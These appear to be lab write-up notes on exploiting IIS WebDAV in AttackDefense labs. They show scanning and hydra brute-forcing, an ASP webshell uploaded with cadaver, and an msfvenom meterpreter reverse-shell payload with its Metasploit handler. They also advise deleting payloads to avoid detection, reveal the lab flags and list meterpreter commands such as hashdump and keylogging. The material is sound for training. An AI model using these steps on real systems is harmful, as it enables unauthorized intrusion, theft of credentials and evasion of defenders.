








# 🔬IIS - WebDAV

## Lab 1

>  🔬 [Windows: IIS Server DAVTest](https://attackdefense.com/challengedetails?cid=2317)
>
>  - Target IP: `10.3.26.115`
>  - IIS exploitation
>  - Credentials provided: `bob`:`password_123321`

```bash
ping 10.3.26.115

nmap -sV -sC 10.3.26.115
```

```bash
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE COPY PROPFIND LOCK UNLOCK PROPPATCH MKCOL PUT DELETE MOVE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to /Default.aspx
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, POST, PROPFIND, PROPPATCH, MKCOL, PUT, DELETE, COPY, MOVE, LOCK, UNLOCK
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, POST, COPY, PROPFIND, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/10.0
|_  Server Date: Fri, 10 Mar 2023 12:34:28 GMT
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MySQL (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: DOTNETGOAT
|   NetBIOS_Domain_Name: DOTNETGOAT
|   NetBIOS_Computer_Name: DOTNETGOAT
|   DNS_Domain_Name: DotNetGoat
|   DNS_Computer_Name: DotNetGoat
|   Product_Version: 10.0.17763
|_  System_Time: 2023-03-10T12:34:28+00:00
| ssl-cert: Subject: commonName=DotNetGoat
| Not valid before: 2023-03-09T12:25:30
|_Not valid after:  2023-09-08T12:25:30
|_ssl-date: 2023-03-10T12:34:36+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-10T12:34:33
|_  start_date: N/A
```


- A `http-enum` script scan can also be done, focusing only on port `80`:

```bash
nmap -p80 --script http-enum -sV 10.3.26.115
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# 401 Unauthorized - authentication is enabled
```


### [hydra](https://www.kali.org/tools/hydra/)

> **`hydra`** - a parallelized fast and flexible login cracker which supports numerous protocols to attack.

```bash
hydra -L <USERNAME_LIST> -P <PASSWORD_LIST> ssh
```

> **❗Pay attention with brute-force attacks as they can cause a DoS (Denial of Service)❗**

- Try `hydra` to brute force WebDAV in this case

```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt 10.3.26.115 http-get /webdav/
```


- Use the lab provided credentials instead, first in the web browser then with `davtest` tool


### [davtest](https://www.kali.org/tools/davtest)

- It sends exploit files to the WebDAV server and automatically creates the directory and uploads different format types of files, then it tries to execute uploaded files and gives an output of successfully executed files.

```bash
davtest -url http://10.3.26.115/webdav
```

```bash
Testing DAV connection
OPEN		FAIL:	http://10.3.26.115/webdav	Unauthorized. Basic realm="10.3.26.115"
```

- Use the provided credentials with `davtest`

```bash
davtest -auth bob:password_123321 -url http://10.3.26.115/webdav
```

```bash
/usr/bin/davtest Summary:
Created: http://10.3.26.115/webdav/DavTestDir_a7XjUR
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cfm
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.cgi
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.aspx
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.php
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jsp
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.jhtml
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.shtml
PUT File: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.pl
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.txt
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.asp
Executes: http://10.3.26.115/webdav/DavTestDir_a7XjUR/davtest_a7XjUR.html
```


> 📌 Summary:
>
> - All important file types can be uploaded to the `/webdav` directory
> - `.txt`, `.asp`, `.html` files can be executed

### [cadaver](https://www.kali.org/tools/cadaver/)

- Use `cadaver` to upload an `.asp` payload to the `/webdav` directory

```bash
cadaver http://10.3.26.115/webdav
```

```bash
dav:/webdav/> ls
# commands can be used on the web server dav directory
```


```bash
dav:/webdav/> put /usr/share/webshells/asp/webshell.asp
```

```bash
Uploading /usr/share/webshells/asp/webshell.asp to `/webdav/webshell.asp':
Progress: [=============================>] 100.0% of 1362 bytes succeeded.

# webshell payload uploaded successfully
```


- Access the backdoor using the browser
  - `http://10.3.26.115/webdav/webshell.asp`

- Windows commands can be provided in the box


- Run `whoami`, `ipconfig` or other commands to find the flag


- `dir C:\` command
  - `http://10.3.26.115/webdav/webshell.asp?cmd=dir+C%3A%5C`

- `type C:\flag.txt` command
  - `http://10.3.26.115/webdav/webshell.asp?cmd=type+C%3A%5Cflag.txt`


<details>
<summary>Reveal Flag: 🚩</summary>


`0cc175b9c0f1b6a831c399e269772661`


</details>

------

## Lab2

> 🔬 [Windows: IIS Server: WebDav Metasploit](https://attackdefense.com/challengedetails?cid=2319)
>
> - Target IP: `10.4.18.218`
> - IIS exploitation with Metasploit
> - Credentials provided: `bob`:`password_123321`

```bash
cat /root/Desktop/target
ping 10.4.18.218

nmap -p80 --script http-enum -sV 10.4.18.218
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-enum: 
|_  /webdav/: Potentially interesting folder (401 Unauthorized)
|_http-server-header: Microsoft-IIS/10.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



- Use `davtest` to get the all the file types that can be uploaded and executed on the IIS server

```bash
davtest -auth bob:password_123321 -url http://10.4.18.218/webdav
```



- Use [Metasploit module](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/) to execute a payload and optain a **reverse shell** (**`meterpreter session`**) on the target system or use `msfvenom` to manually create a payload and use it with metasploit.

### [msfvenom](https://www.offsec.com/metasploit-unleashed/msfvenom/) - manual

- Manually generate the `.asp` payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.80.4 LPORT=1234 -f asp > shell.asp
```

- Use `cadaver` to upload the generated `shell.asp` payload to the `/webdav` directory

```bash
cadaver http://10.4.18.218/webdav
```

```bash
put /root/shell.asp
```

Before executing the `shell.asp`, *setup a **listener**/**handler** that will receive the reverse connection from the target and send the stage that provides with a `meterpreter` session when executed*.
- Open a new terminal tab and run Metasploit with database support

```bash
service postgresql start && msfconsole
```

- Setup a [Metasploit handler](https://www.rapid7.com/db/modules/exploit/multi/handler/), using the same payload, LHOST, LPORT provided to `msfvenom`

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.80.4
set LPORT 1234
run
```

- The listener (reverse TCP handler) starts listening and waits for a connection from the actual `shell.asp` payload



- Open the `http://10.4.18.218/webdav` link in the browser and click on `shell.asp` file
- The **Meterpreter** session will be opened



- Get remote system info with `sysinfo`



- Get the user that the server is running as with `getuid`



> 📌 No privilege escalation needed since the user is `NT AUTHORITY\SYSTEM`
>
> ❗ Once access is optained, the uploaded payloads can be deleted from the target system, to avoid detection!

- Use cadaver to delete the `shell.asp` uploaded file

```bash
cadaver http://10.4.18.218/webdav
delete shell.asp
```

### metasploit - automatic

- Use Metasploit [iis_webdav_upload_asp](https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_upload_asp/) module to get a `meterpreter` session on the target system.

```bash
msfconsole
```

```bash
search iis upload
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.4.22.96	# Lab reset = IP changed
set HttpUsername bob
set HttpPassword password_123321
set PATH /webdav/metasploit.asp
exploit
```



- *This exploit automatically deleted the `/webdav/metasploit.asp` payload*
- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>


`d3aff16a801b4b7d36b4da1094bee345`



</details>

------

## Meterpreter Commands

```bash
meterpreter > help

Core Commands
=============

    Command                   Description
    -------                   -----------
    ?                         Help menu
    background                Backgrounds the current session
    bg                        Alias for background
    bgkill                    Kills a background meterpreter script
    bglist                    Lists running background scripts
    bgrun                     Executes a meterpreter script as a background thread
    channel                   Displays information or control active channels
    close                     Closes a channel
    detach                    Detach the meterpreter session (for http/https)
    disable_unicode_encoding  Disables encoding of unicode strings
    enable_unicode_encoding   Enables encoding of unicode strings
    exit                      Terminate the meterpreter session
    get_timeouts              Get the current session timeout values
    guid                      Get the session GUID
    help                      Help menu
    info                      Displays information about a Post module
    irb                       Open an interactive Ruby shell on the current session
    load                      Load one or more meterpreter extensions
    machine_id                Get the MSF ID of the machine attached to the session
    migrate                   Migrate the server to another process
    pivot                     Manage pivot listeners
    pry                       Open the Pry debugger on the current session
    quit                      Terminate the meterpreter session
    read                      Reads data from a channel
    resource                  Run the commands stored in a file
    run                       Executes a meterpreter script or Post module
    secure                    (Re)Negotiate TLV packet encryption on the session
    sessions                  Quickly switch to another session
    set_timeouts              Set the current session timeout values
    sleep                     Force Meterpreter to go quiet, then re-establish session
    ssl_verify                Modify the SSL certificate verification setting
    transport                 Manage the transport mechanisms
    use                       Deprecated alias for "load"
    uuid                      Get the UUID for the current session
    write                     Writes data to a channel


Stdapi: File system Commands
============================

    Command       Description
    -------       -----------
    cat           Read the contents of a file to the screen
    cd            Change directory
    checksum      Retrieve the checksum of a file
    cp            Copy source to destination
    del           Delete the specified file
    dir           List files (alias for ls)
    download      Download a file or directory
    edit          Edit a file
    getlwd        Print local working directory
    getwd         Print working directory
    lcd           Change local working directory
    lls           List local files
    lpwd          Print local working directory
    ls            List files
    mkdir         Make directory
    mv            Move source to destination
    pwd           Print working directory
    rm            Delete the specified file
    rmdir         Remove directory
    search        Search for files
    show_mount    List all mount points/logical drives
    upload        Upload a file or directory


Stdapi: Networking Commands
===========================

    Command       Description
    -------       -----------
    arp           Display the host ARP cache
    getproxy      Display the current proxy configuration
    ifconfig      Display interfaces
    ipconfig      Display interfaces
    netstat       Display the network connections
    portfwd       Forward a local port to a remote service
    resolve       Resolve a set of host names on the target
    route         View and modify the routing table


Stdapi: System Commands
=======================

    Command       Description
    -------       -----------
    clearev       Clear the event log
    drop_token    Relinquishes any active impersonation token.
    execute       Execute a command
    getenv        Get one or more environment variable values
    getpid        Get the current process identifier
    getprivs      Attempt to enable all privileges available to the current process
    getsid        Get the SID of the user that the server is running as
    getuid        Get the user that the server is running as
    kill          Terminate a process
    localtime     Displays the target system local date and time
    pgrep         Filter processes by name
    pkill         Terminate processes by name
    ps            List running processes
    reboot        Reboots the remote computer
    reg           Modify and interact with the remote registry
    rev2self      Calls RevertToSelf() on the remote machine
    shell         Drop into a system command shell
    shutdown      Shuts down the remote computer
    steal_token   Attempts to steal an impersonation token from the target process
    suspend       Suspends or resumes a list of processes
    sysinfo       Gets information about the remote system, such as OS


Stdapi: User interface Commands
===============================

    Command        Description
    -------        -----------
    enumdesktops   List all accessible desktops and window stations
    getdesktop     Get the current meterpreter desktop
    idletime       Returns the number of seconds the remote user has been idle
    keyboard_send  Send keystrokes
    keyevent       Send key events
    keyscan_dump   Dump the keystroke buffer
    keyscan_start  Start capturing keystrokes
    keyscan_stop   Stop capturing keystrokes
    mouse          Send mouse events
    screenshare    Watch the remote user desktop in real time
    screenshot     Grab a screenshot of the interactive desktop
    setdesktop     Change the meterpreters current desktop
    uictl          Control some of the user interface components


Stdapi: Webcam Commands
=======================

    Command        Description
    -------        -----------
    record_mic     Record audio from the default microphone for X seconds
    webcam_chat    Start a video chat
    webcam_list    List webcams
    webcam_snap    Take a snapshot from the specified webcam
    webcam_stream  Play a video stream from the specified webcam


Stdapi: Audio Output Commands
=============================

    Command       Description
    -------       -----------
    play          play a waveform audio file (.wav) on the target system


Priv: Elevate Commands
======================

    Command       Description
    -------       -----------
    getsystem     Attempt to elevate your privilege to that of local system.


Priv: Password database Commands
================================

    Command       Description
    -------       -----------
    hashdump      Dumps the contents of the SAM database


Priv: Timestomp Commands
========================

    Command       Description
    -------       -----------
    timestomp     Manipulate file MACE attributes
```

------

